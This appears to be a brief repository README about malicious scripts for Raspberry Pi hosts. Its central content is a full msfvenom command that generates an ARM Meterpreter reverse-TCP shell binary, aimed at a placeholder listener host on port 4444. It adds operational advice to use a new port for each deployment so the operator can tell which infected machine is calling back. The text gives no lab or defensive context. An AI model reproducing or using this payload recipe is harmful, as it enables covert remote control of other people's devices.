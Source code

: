 The scripts you find here are malicious! Don't touch!

To generate a new shellscript that will work on the raspberry pi hosts, use the following command:

msfvenom --arch armle --platform linux -p linux/armle/meterpreter/reverse_tcp LHOST=<SetListeningHost> LPORT=4444 -f elf > shell.elf

You might consider generating a new script with a new port pairing for each deployment of this payload.
This way, you can keep track of each different deployment port pairing and know which machine is calling you back.
